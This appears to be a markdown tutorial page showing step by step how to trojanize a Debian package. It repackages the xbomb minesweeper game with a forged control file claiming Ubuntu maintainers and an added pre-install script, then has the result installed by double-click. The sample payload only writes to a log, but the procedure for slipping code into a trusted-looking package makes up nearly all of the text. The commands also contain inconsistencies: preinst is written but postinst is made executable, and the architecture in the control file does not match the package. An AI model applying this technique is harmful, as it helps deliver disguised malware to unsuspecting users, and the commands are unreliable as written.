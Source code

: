 Refs:
* <https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/>
* <https://github.com/UndeadSec/Debinject>
* <https://fabianlee.org/2018/09/28/ubuntu-customizing-and-repacking-a-deb-file/>
* <http://www.securitytube.net/video/618>

```bash
# Download the .deb file in which you want to install the backdoor
$ sudo apt-get --download-only install xbomb

# Make a directory and copy .deb file into the newly created directory
$ mkdir /tmp/evil
$ sudo mv /var/cache/apt/archives/xbomb_2.2b-1build1_amd64.deb /tmp/evil
$ cd /tmp/evil/

# Extract the contents of .deb package into work directory
$ dpkg -x xbomb_2.2b-1build1_amd64.deb work

# MakeDEBIAN directory inside work directory
$ mkdir /tmp/evil/work/DEBIAN

# Create a control file inside the DEBIAN directory
:/tmpevil/work/DEBIAN$ cat control

cat control
Package: xbomb
Version: 2.2b-1
Section: Games and Amusement
Priority: optional
Architecture: i386
Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com)
Description: a text-based minesweeper
 xbomb is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer. Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
```
In our DEBIAN directory, we’ll create a file named preinst that contains the following
```bash
:/tmp/evil/work/DEBIAN# cat preinst
#!/bin/sh

echo "ran preinst of client at $(date)." >> /tmp/myntp.log
```
We’ll now make our pre-installation script executable and build our new package. 
The built file will be named work.deb so we will want to change that to xbomb.deb
```bash
:/tmp/evil/work/DEBIAN$ chmod 755 postinst
:/tmp/evil/work/DEBIAN$ dpkg-deb --build /tmp/evil/work
dpkg-deb: building package `xbomb' in `/tmp/evil/work.deb'.

:/tmp/evil$ mv work.deb xbomb.deb
```
Now, we can copy xbomb.deb to home folder and double click for installation

In order to uninstall the .deb file
```bash
$ sudo dpkg -P xbomb
```
